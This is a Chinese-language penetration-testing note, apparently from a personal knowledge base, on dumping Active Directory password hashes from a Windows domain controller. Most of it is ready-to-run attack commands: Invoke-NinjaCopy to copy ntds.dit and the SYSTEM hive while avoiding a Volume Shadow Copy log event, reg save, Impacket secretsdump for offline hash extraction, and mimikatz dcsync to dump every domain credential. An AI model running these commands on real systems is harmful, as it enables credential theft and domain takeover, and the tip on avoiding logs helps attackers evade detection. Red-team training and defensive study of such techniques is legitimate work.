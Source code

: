 powershell运行以下命令

```plain
Import-Module .\Invoke-NinjaCopy.ps1
Invoke-NinjaCopy -Path "C:\windows\ntds\ntds.dit" -LocalDestination "C:\ntds.dit"
Invoke-NinjaCopy -Path "C:\Windows\System32\config\SYSTEM" -LocalDestination "C:\system.hive"
```

**<font style="color:rgb(51, 51, 51);">这种方法没有调用Volume Shadow Copy服务，所以不会产生日志文件7036(卷影拷贝服务进入运行状态的标志)。</font>**

## <font style="color:rgb(51, 51, 51);">导出SYSTEM文件</font>
除了使用上面powershell中的脚本导出外还可以使用以下命令

```bash
reg save hklm\system {保存路径}system.hiv
```

## 获取ntds.dit中的hash
### <font style="color:rgba(0, 0, 0, 0.85);">利用E</font>**<font style="color:rgba(0, 0, 0, 0.85);">sedbexport和Ntdsxtract</font>**<font style="color:rgba(0, 0, 0, 0.85);">工具</font>
详细看参考文章

### <font style="color:rgba(0, 0, 0, 0.85);">使用Impacket中的secretsdump（离线）</font>
下载地址：[https://github.com/fortra/impacket](https://github.com/fortra/impacket)

也可以运行`pip`安装impacket包

<font style="color:rgb(51, 51, 51);">secretsdump.py是Impacket工具包中的一个脚本，该脚本实现了多种不需要在远程主机上执行任何代理的情况下转储机密数据的技术。对于SAM和LSA Secrets（包括缓存的凭据），我们尽可能的尝试从注册表中读取，然后将hives保存在目标系统（％SYSTEMROOT％\Temp目录）中，并从那里读取其余的数据。</font>

<font style="color:rgb(51, 51, 51);">secretsdump.py有一个本地选项，可以解析Ntds.dit文件并从Ntds.dit中提取哈希散列值和域信息。在此之前，我们必须获取到Ntds.dit和SYSTEM这两个文件。如果条件满足，你可以执行以下命令：</font>

```bash
python secretsdump.py -system /目录/system.hive -ntds /目录/ntds.dit LOCAL
```

![](https://cdn.nlark.com/yuque/0/2025/png/44191974/1751457665442-9bef2868-f106-4e51-a284-2ecf14909b66.png)

更多详细见impacket使用总结

### mimikatz（在线）
在目标机器上运行使用管理员运行mimikatz以及以下命令：

```bash
lsadump::dcsync /domain:xxx.com /all /csv
```

![](https://cdn.nlark.com/yuque/0/2025/png/44191974/1751459824302-730c46c4-94d3-42ed-8c97-13455644290b.png)

